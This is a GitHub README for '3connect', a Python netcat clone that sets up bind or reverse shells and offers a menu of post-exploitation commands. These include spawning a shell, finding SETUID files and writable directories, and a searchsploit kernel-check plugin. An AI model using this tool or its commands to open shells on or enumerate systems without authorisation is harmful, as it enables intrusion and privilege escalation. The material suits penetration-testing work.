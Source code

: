 # 3connect

## About
3connect is a basic netcat clone allowing you to set up bind or reverse shells to your target. The added benefit is you can define basic commands to send and read from the target. I've also included plugin support if you would like to extend the functionality.

## Usage

- Set up listener

```
./3connect.py -l -H <local IP> -p <port to listen on>
```

- Connect to listener

```
./3connect.py -c -H <target IP> -p <target port>
```

Once connected, you can issues any command as usual. However, if you type `#`, 3connect will display a menu of options.

```lang=bash
root@kali:~/3connect# ./3connect.py -H 127.0.0.1 -c -p 444
[+] Connected to remote host.
id
uid=0(root) gid=0(root) groups=0(root)
#

		[+] What Platform?
		1. Windows
		2. Linux
		
[!]>2
1:	Spawn python shell
2:	Linux Basic
		uname -a | /etc/issue | ls -al /etc/cron.*
3:	Writable directories
4:	Environment Variables
5:	Network Info
6:	Installed Applications
7:	Find SETUID files
8:	Plugin - Check searchsploit for Kernel
```

Each options is loaded from the `linux.json` file for linux and the `windows.json` (Currently doesn't exist) for windows hosts. You are free to add your own options and commands to these files to expand the use.

## Plugin Support

You'll notice a test plugin in the `linux.json` file. 3connect will load a plugin if `plugin:` is found in the command for a particular option. It will then call that plugins main function and pass the socket to it. This is to allow you to extend the functionality, I have provided a basic (altthough useless) example in kernelsearch.py.
